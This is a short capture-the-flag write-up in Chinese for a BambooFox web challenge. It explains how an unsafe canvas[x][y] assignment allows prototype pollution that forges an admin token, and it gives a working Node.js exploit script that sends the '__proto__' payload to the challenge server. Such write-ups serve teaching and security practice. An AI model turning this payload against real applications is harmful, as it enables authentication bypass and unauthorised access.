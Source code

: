 ```js
app.get('/flag', (req, res) => {
    let userData = { isGuest: true };
    if (req.signedCookies.user && req.signedCookies.user.admin === true) {
        userData.isGuest = false;
        userData.isAdmin = req.cookies.admin;
        userData.token = secret.ADMIN_TOKEN;
    }

    if (req.query.token && req.query.token.match(/[0-9a-f]{16}/) &&
        hash(`${req.connection.remoteAddress}${req.query.token}`) === userData.token)
        res.send(secret.FLAG);
    else
        res.send("NO");
});

app.listen(3000, "0.0.0.0");
```

因為最近才解了一題 prototype pollution 的題目，所以一眼就看到：`if (x && y && color) canvas[x][y] = color.toString();` 跟最後一段的判斷：

``` js
if (req.query.token && req.query.token.match(/[0-9a-f]{16}/) &&
    hash(`${req.connection.remoteAddress}${req.query.token}`) === userData.token)
    res.send(secret.FLAG);
else
    res.send("NO");
```

只要透過原型污染就可以讓 userData.token 可控，接下來只要找到正確的值就行了。

最後的解法長這樣：

``` js
var axios = require('axios')
var crypto = require('crypto')
var baseUrl = 'http://chall.ctf.bamboofox.tw:8787'
var myip = '1.1.1.1'

const hash = (token) => crypto.createHash('sha256').update(token).digest('hex');
const token = '5555555555555555'

const hashValue = hash(`${myip}${token}`)

async function run() {
  await axios.get(baseUrl + '/api/draw?x=__proto__&y=token&color=' + hashValue)
  const response = await axios.get(baseUrl + '/flag?token=' + token)
  console.log(response.data)
}

run()
```

讓 x = `__proto__`，y = token，所以就會變成：`canvas['__proto__']['token'] = xxx`，達成 prototype pollution。
